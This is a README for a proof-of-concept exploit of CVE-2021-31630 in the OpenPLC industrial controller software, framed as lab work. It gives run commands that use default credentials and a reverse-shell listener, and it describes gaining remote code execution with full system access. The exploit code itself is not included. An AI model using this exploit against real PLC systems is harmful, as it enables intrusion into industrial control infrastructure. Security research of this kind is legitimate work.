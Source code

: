 
# CVE-2021-31630 OpenPLC Exploit

## Overview
This repository contains a Proof of Concept (PoC) exploit for **CVE-2021-31630**, a vulnerability in OpenPLC that allows remote code execution. After researching and analyzing multiple public exploits, I modified and adapted them for my own lab setup. By leveraging this exploit, I was able to gain a **reverse shell** and access the OpenPLC web server.

## Usage
To execute the exploit, run:

```bash
python exploit.py -ip <LISTEN_IP> -p <LISTEN_PORT> -u <USERNAME> -pwd <PASSWORD>
```

Example:
```bash
python exploit.py -ip 192.168.1.100 -p 1337 -u openplc -pwd openplc
```

## Arguments
- `-ip <LISTEN_IP>` : The IP address to listen on for the reverse shell.
- `-p <LISTEN_PORT>` : The port number to listen on.
- `-u <USERNAME>` : The username required for OpenPLC login.
- `-pwd <PASSWORD>` : The password required for OpenPLC login.

## Description
This exploit takes advantage of the **CVE-2021-31630** vulnerability found in OpenPLC, enabling an attacker to achieve **remote code execution**. By providing the necessary credentials and connecting to the OpenPLC web server, the script injects a payload that triggers a reverse shell, granting full access to the system.

## Author
Modified  by **Sulaiman Alhasawi**



